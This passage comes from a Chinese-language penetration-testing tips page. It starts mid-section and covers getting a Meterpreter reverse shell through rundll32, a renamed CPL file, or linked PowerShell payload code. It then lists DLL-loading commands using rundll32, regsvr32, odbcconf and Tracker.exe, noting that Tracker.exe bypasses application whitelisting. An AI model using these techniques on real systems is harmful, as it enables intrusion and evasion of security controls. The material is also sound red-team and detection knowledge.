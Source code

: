 生成a.dll,然后上传至测试主机

执行`rundll32.exe a.dll,Control_RunDLL`，即可上线

#### 方法2：通过cpl反弹meterpreter

代码见https://raw.githubusercontent.com/3gstudent/test/master/meterpreter_reverse_tcp.cpp

生成dll，重命名为cpl，双击执行

#### 方法3：通过powershell反弹meterpreter

https://raw.githubusercontent.com/3gstudent/Code-Execution-and-Process-Injection/master/2-CodeExecution-Meterpreter.ps1

---

### Tips 29. Windows系统加载dll的方法

#### 方法1：rundll32

```
rundll32 a.dll,EntryPoint
```

#### 方法2：regsvr32

```
regsvr32 a.dll
```

参考：

《Code Execution of Regsvr32.exe》

#### 方法3：odbcconf

```
odbcconf.exe /a {regsvr c:\test\odbcconf.dll}
```

参考：

[《Study Notes Weekly No.3(Use odbcconf to load dll & Get-Exports & ETW USB Keylogger)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.3(Use-odbcconf-to-load-dll-&-Get-Exports-&-ETW-USB-Keylogger)/)

#### 方法4：Tracker

```
Tracker.exe /d test.dll /c svchost.exe
```

tracker.exe包含微软数字签名，可绕过应用程序白名单的限制

参考：

[《Study Notes Weekly No.4(Use tracker to load dll & Use csi to bypass UMCI & Execute C# from XSLT file)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.4(Use-tracker-to-load-dll-&-Use-csi-to-bypass-UMCI-&-Execute-C-from-XSLT-file)/)
